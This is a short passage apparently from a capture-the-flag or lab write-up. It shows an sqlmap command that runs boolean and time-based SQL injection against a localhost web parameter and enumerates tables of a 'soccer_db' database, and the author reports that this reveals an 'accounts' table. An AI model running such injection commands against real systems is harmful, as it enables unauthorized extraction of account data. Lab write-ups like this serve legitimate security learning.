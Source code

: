 ![](./IMG/56.png)
- Then I stop the sqlmap, since it will take too long time to retrieved all the DB's table.
- So, I do a little modify for sqlmap command
```
sqlmap -u "http://localhost:9696/?id=1" --dbms "MySQL" --technique BT -p id --dump-all --batch -D soccer_db --tables
```
- And I also got the table name: accounts
